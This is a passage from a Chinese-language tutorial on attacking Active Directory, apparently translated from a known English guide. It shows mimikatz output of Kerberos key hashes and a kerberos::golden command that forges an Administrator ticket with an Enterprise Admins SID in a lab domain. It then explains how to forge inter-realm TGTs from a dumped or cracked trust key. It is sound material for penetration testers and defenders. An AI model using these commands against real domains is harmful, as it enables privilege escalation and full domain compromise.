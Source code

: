 ```powershell
         * rc4_hmac_old      : 1bf960a6af7703f75b1a2b04787c85fb
         * rc4_md4           : 1bf960a6af7703f75b1a2b04787c85fb
         * aes256_hmac       : 8603210037f738c50120dbe0f2259466fd4fdd1d58ec0cf9ace34eb990c705a3
         * aes128_hmac       : 204be93d3c18326bf0e6675eb0a32202

mimikatz # kerberos::golden /admin:Administrator /domain:it.poke.mon /sid:S-1-5-21-1913835218-2813970975-3434927454 /sids:S-1-5-21-4285720809-372211516-2297741651-519 /aes256:8603210037f738c50120dbe0f2259466fd4fdd1d58ec0cf9ace34eb990c705a3 /ptt /groups:512,520,572
User      : Administrator
Domain    : it.poke.mon (IT)
SID       : S-1-5-21-1913835218-2813970975-3434927454
User Id   : 500
Groups Id : *512 520 572
Extra SIDs: S-1-5-21-4285720809-372211516-2297741651-519 ;
ServiceKey: 8603210037f738c50120dbe0f2259466fd4fdd1d58ec0cf9ace34eb990c705a3 - aes256_hmac
Lifetime  : 5/13/2021 9:36:28 AM ; 5/11/2031 9:36:28 AM ; 5/11/2031 9:36:28 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ it.poke.mon' successfully submitted for current session
```



### 域间TGT 伪造

在上文中讲到，使用Kerberos进行跨域操作会引入一种新的TGT，即**跨域TGT**。这种 TGT 与普通的 TGT 完全一样，只是它用域间信任密钥(信任账户的 NT hash)进行了加密，这是一个允许信任双方在它们之间进行通信的秘密密钥。秘密密钥被存储为代表该信托的用户账户的密钥。



为了获得域间信任密钥，通常需要[转储域数据库](https://zer1t0.gitlab.io/posts/attacking_ad/#domain-database-dumping)。此外，有一种情况是，可以[通过Kerberoast获得信任密钥](https://blog.xpnsec.com/inter-realm-key-roasting/)。



当一个信任被创建时，**信任密码可以由一个人选择，所以有可能设置了一个弱密码**。然后，当得到一个用信任钥匙加密的域间TGT，就可以试图破解它以得到信任密码（它被用来生成所有的Kerberos信任钥匙）。但是请记住，信任密码和机器密码一样，通常每30天更换一次(自动)。

一旦你得到信任密钥，要[创建一个跨域票据](https://adsecurity.org/?p=1588)，你可以使用[mimikatz kerberos::golden](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#golden--silver)命令或[impacket ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)脚本。然后你可以把它当作任何票据来使用。**信任间票据是用RC4密钥加密的**，也就是信任账户的NT哈希值。



### 一些零零散散的内容



#### 获取域信任
